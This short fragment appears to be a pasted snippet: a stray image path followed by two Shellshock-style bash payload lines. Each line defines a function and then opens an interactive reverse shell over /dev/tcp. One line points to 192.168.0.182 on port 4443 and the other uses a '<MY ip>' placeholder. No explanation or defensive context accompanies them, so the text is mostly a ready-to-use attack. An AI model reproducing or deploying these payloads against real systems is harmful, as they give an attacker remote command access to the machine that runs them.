 payload() { :;}; /bin/bash -c  '/bin/bash -i' >& /dev/tcp/192.168.0.182/4443 0>&1 &

##################

payload() { :;}; /bin/bash -c  '/bin/bash -i' >& /dev/tcp/  <MY ip> /4443 0>&1 &
